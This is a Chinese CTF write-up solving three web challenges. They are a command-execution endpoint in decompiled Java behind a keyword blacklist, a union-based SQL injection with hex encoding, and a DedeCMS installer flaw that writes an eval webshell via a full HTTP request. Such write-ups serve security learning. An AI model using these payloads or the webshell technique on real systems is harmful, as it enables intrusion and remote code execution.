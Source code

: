 # 粗心的开发人员

存在/info，提示发现目录下存在R.class文件，可能导致源代码泄露，请及时处理！

将R.class下载下来拿IDEA打开审计：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.example.demo2;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import org.apache.logging.log4j.util.Strings;
import org.springframework.util.DigestUtils;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping({"/r"})
public class R {
    public R() {
    }

    private boolean waf1(String data) {
        String[] blacks = new String[]{"cat", "more", "tail", "f", "l", "a", "g", "?", "*", "[", "]", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", ">", ";", "/"};
        if (Strings.isEmpty(data)) {
            System.out.println("1111");
            return true;
        } else {
            String[] var3 = blacks;
            int var4 = blacks.length;

            for(int var5 = 0; var5 < var4; ++var5) {
                String black = var3[var5];
                if (data.toLowerCase().contains(black)) {
                    return false;
                }
            }

            return true;
        }
    }

    @PostMapping({"/e"})
    public String CE(String x, String c, String cmd) {
        if (!this.waf1(cmd)) {
            return "hacker!! Go away!1111";
        } else if (!DigestUtils.md5DigestAsHex(x.getBytes()).startsWith("5ebe2294")) {
            return DigestUtils.md5DigestAsHex(x.getBytes()).substring(0, 8);
        } else {
            Runtime run = Runtime.getRuntime();
            StringBuilder sb = new StringBuilder();

            try {
                Process p = run.exec(c);
                BufferedInputStream in = new BufferedInputStream(p.getInputStream());
                BufferedReader inBr = new BufferedReader(new InputStreamReader(in));

                String tmpStr;
                while((tmpStr = inBr.readLine()) != null) {
                    sb.append(tmpStr);
                }

                if (p.waitFor() != 0 && p.exitValue() == 1) {
                    return "failed!!";
                } else {
                    inBr.close();
                    in.close();
                    return sb.toString();
                }
            } catch (Exception var10) {
                return String.valueOf(var10);
            }
        }
    }
}

```

简单的审计一下，路由是/r/e，传入的cmd进行waf，但是cmd后续没用。传入的x经过md5的结果是以5ebe2294开头，把这串东西放到谷歌上搜一下就会出现下面这串：

![image-20211022180252103](2021年-极客谷杯-Web.assets/image-20211022180252103.png)

查一下就知道这是secret的md5结果，所以x传secret，然后后面是一个命令执行，拿参数c 进行rce即可：

```
http://6c643ff4-67a2-4a2c-ace8-e14a55d40fd2.jkg.dasctf.com/r/e

x=secret&c=cat /flag.txt
```



# love_sql

一血。根据提示存在备份文件，扫一下发现了www.zip，里面有网站的源码。

发现在content.php里面存在SQL注入，但是ban了一些东西，但是基本算没有waf。考虑到可以联合注入，再加上题目告诉了我们flag在flag表里，这样就知道了表名，直接进行无列名注入。但是对内容进行了一次waf：

```php
    if(!stristr($row['content'],'DASCTF') && !stristr($row['time'],'DASCTF')){
        echo $row['content']."<br/>";
        echo $row['time'];
    }
```

进行一次编码就可以了，base64或者hex都行，直接打：

```
/content.php?id=-1%20union%20select%201,2,(select%20hex(hex(group_concat(`2`)))%20from%20(select%201,2%20union%20select%20*%20from%20flag)feng)
```

再把得到的内容进行2次hex解密即可得到flag。



# EZDEDE

一血。安装getshell，网上有一个，是这里的：

```php
else if($step==11)
{
    require_once('../data/admin/config_update.php');
    $rmurl = UPDATEHOST."dedecms/demodata.{$s_lang}.txt";
    $sql_content = file_get_contents($rmurl);
    $fp = fopen(INSTALL_DEMO_NAME,'w');
    if(fwrite($fp,$sql_content))
        echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
    else
        echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
    unset($sql_content);
    fclose($fp);
    exit();
}
```

但是不知道为什么打不通，利用安装的step4中的：

```php
        $conn = mysql_connect($dbhost,$dbuser,$dbpwd) or die("<script>alert('数据库服务器或登录密码无效，\\n\\n无法连接数据库，请重新设定！');history.go(-1);</script>");
```

构造mysql恶意服务端进行读取文件，读一下install/index.php，发现出题人把step11这里给删了，其他都没动，所以得再挖一下。

最终定位到了这里：

```php
    if(!isset($modules) || !is_array($modules))
    {
        //锁定安装程序
        $fp = fopen($insLockfile,'w');
        fwrite($fp,'ok');
        fclose($fp);
        include('./templates/step-5.html');
        exit();
    }
    else
    {
        $module = join(',',$modules);
        $fp = fopen($moduleCacheFile,'w');
        var_dump($moduleCacheFile);
        fwrite($fp,'<'.'?php'."\r\n");
        fwrite($fp,'$selModule = "'.$module.'"; '."\r\n");
        fwrite($fp,'?'.'>');
```

进入else就可以写入文件，这里的变量都可以进行覆盖：

```php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v) ${$_k} = RunMagicQuotes($_v);
}
```

唯一的问题就是，`$module`是被双引号包裹的，想要逃出来的话还得加双引号，但是在上面的`RunMagicQuotes`存在转义的处理，没法逃出双引号，那就不逃了：

```php
${eval($_POST[0])}
```



正常安装的时候抓个包改一下数据即可：

```http
POST /install/index.php HTTP/1.1
Host: 06b29b43-e931-40cc-b464-1252310adc97.jkg.dasctf.com
Content-Length: 418
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://06b29b43-e931-40cc-b464-1252310adc97.jkg.dasctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://06b29b43-e931-40cc-b464-1252310adc97.jkg.dasctf.com/install/index.php?step=3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

step=4&dbtype=mysql&dbhost=localhost&dbuser=root&dbpwd=root&dbprefix=dede_&dbname=dedecmsv57utf8sp2&dblang=utf8&adminuser=admin&adminpwd=admin&cookieencode=3WGGbidsWw5FshrPdHHxwDbfgyW6oAVv&webname=%E6%88%91%E7%9A%84%E7%BD%91%E7%AB%99&adminmail=admin%40dedecms.com&baseurl=http%3A%2F%2F06b29b43-e931-40cc-b464-1252310adc97.jkg.dasctf.com&cmspath=&installdemo=0&modules[]=${eval($_POST[0])}&moduleCacheFile=../data/1.php
```

即可写入`/data/1.php`，再去读flag即可。

